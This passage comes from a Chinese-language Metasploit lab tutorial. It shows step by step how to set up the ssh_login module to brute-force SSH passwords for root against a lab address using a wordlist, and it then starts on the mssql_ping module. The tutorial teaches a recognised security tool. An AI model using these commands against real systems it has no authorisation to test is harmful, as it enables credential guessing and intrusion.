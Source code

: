 在口令猜测时明显需要设置的项或者说可以设置的项变的多了很多，这就需要根据实际情况来进行设置。下面，写一个简单的例子：

根据上次实验的结果，选取10.10.10.254

#### （3）使用set命令设置目标地址范围。

 msf auxiliary(ssh_login) > set rhosts 10.10.10.254

![ppp-20231128191448663](/img/Metasploit-review/ppp-20231128191448663.png)

#### （4）使用set命令设置参数username的值。

在这里仅尝试用户名为root的情况，因此代码如下：

 msf auxiliary(ssh_login) > set username root

![ppp-20231128191528700](/img/Metasploit-review/ppp-20231128191528700.png)

#### （5）使用set命令设置参数pass_file的值。

将名称为words.txt的密码字典放在了桌面，因此代码如下：

 msf auxiliary(ssh_login) > set pass_file /root/Desktop/words.txt

![ppp-20231128191551676](/img/Metasploit-review/ppp-20231128191551676.png)

#### （6）使用set命令设置并发线程的数量。

 msf auxiliary(ssh_login) > set threads 100

![ppp-20231128191604997](/img/Metasploit-review/ppp-20231128191604997.png)

#### （7）使用run命令来执行扫描。

 msf auxiliary(ssh_login) > run

![ppp-20231128192402211](/img/Metasploit-review/ppp-20231128192402211.png)

### 4.Mssql_ping模块

#### （1）使用use命令使用mssql_ping模块。

 msf > use auxiliary/scanner/mssql/mssql_ping 

![ppp-20231128192510859](/img/Metasploit-review/ppp-20231128192510859.png)

#### （2）通过show命令查看模块的设置选项。

 msf auxiliary(mssql_ping) > show options

![ppp-20231128192529233](/img/Metasploit-review/ppp-20231128192529233.png)

> 与前面不同的是在mssql_ping模块用到了USERNAME设置项，这起始与Microsoft SQL Server安装时候的一个默认设置有关。在初次安装服务器的时候，会默认创建sa或系统管理员用户。因此，这里USERNAME设置项的默认设置是sa，在这里也不准备进行更改。

#### （3）使用set命令设置目标地址范围。

